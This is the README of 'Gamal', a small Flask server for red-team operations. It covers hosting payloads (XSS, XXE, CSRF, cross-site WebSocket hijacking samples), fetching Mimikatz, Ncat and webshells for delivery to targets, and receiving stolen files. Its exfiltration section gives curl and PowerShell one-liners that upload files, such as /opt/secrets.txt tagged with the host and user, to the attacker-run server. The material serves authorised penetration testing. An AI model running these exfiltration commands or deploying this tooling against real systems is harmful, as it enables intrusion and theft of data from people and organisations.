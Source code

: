# Gamal

A tiny flask app for helping red-teamers, purple teamers, and pentesters in delivery, mass data exfiltration, and some attacks (OOB communications, SSRF, XXE, XSS, Session Hijacking, Session Riding).

## Install

```bash
cd /opt
git clone github.com/Fadavvi/Gamal
cd Gamal
sudo apt install python3-flask #or python3 -m pip install flask
python3 gamal.py
```  

## Arguments

```
  -h, --help       show this help message and exit
  --log LOG        Path to the log file
  --port PORT      Port / HTTPs
  --ip IP          IP e.g.: 0.0.0.0 or 127.0.0.1
  --canary CANARY  Canary token
  --cert CERT      Your fullchain.pem file
  --key KEY        Your SSL private key file
  --host HOST      Your hostname or external IP address, Format: <FQDN>:<PORT>
  --delivery       Shows available files in the ./f path for delivery. Use it in combination with --host
```

### Usage
 
Default configuration: IP binding: `0.0.0.0`, Port: `1337`, Log: `gamal.log`, Canary-String: `booqbooqGamal`

or

`python3 gamal.py --ip <IPADDR> --port <PORTNUM> --log <LOGPATH> --canary <YourCanaryString> [--cert <FullChain> --key <PrivateKey>] [--host <FQDN>:<YourPort> --delivery]`

Then you can use your IP & Port in your payloads.

## Delivery

***Note:*** Add your files in `/f` folder ==>  `http://IP:PORT/f/<Your-FileName>`

### Paylods

`/f/xss.js` XSS Sample function

`/f/CORS.html` CORS sample script

`/f/CSRF.html` CSRF sample page

`/f/CSWSH.html` Cross-Site WebSocket Hijacking (CSWSH) script

`/f/meta.jpg` XSS in Meta-data

`/f/EBXXE.dtd` XXE .dtd sample file

`/f/xxe1.svg` and `/f/xxe2.svg` XXE in SVG file

### Gamal helper script (additional tools)

It downloads and categorizes the most common tools for delivering to the targets (Windows / Linux / macOS)

- [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
- [SharpCollection](https://github.com/Flangvik/SharpCollection/) -- Read the README file before you use it in your operations.
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng/) -- agent and proxy
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng/)
- [AzureHound](https://github.com/SpecterOps/AzureHound)
- [Traitor](https://github.com/liamg/traitor)
- [Ncat](https://nmap.org/ncat/)
- Basic webshells (asp / aspx / jsp / php)

## Data exfiltration

### Linux / MacOS

```bash
curl -k -F "file=@<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload
```

### Windows

```powershell
Remove-Item alias:curl -ErrorAction SilentlyContinue; curl -k -F "file=@C:\<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload
```

### Special Parameters

If you use `user` and `host` parameters in the upload URL, they will be used in the file name. It'll help you identify the owner of the files more easily. Example:

```bash
curl -k -F "file=@/opt/secrets.txt" "https://127.0.0.1:1337/e/upload?host=$(hostname)&user=$(id -un)"
```

outputfile:

`received/{host}/{user}--{request.remote_addr}-{RealFileName}`

## Disclaimer

 This tool is intended for use only in a legal and legitimate manner. Unfortunately, there is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.

## To do

- [ ] DNS exfiltration capability
- [ ] ICMP exfiltration capability
- [X] Improving the logging format
- [ ] Adding more tools to the helper script

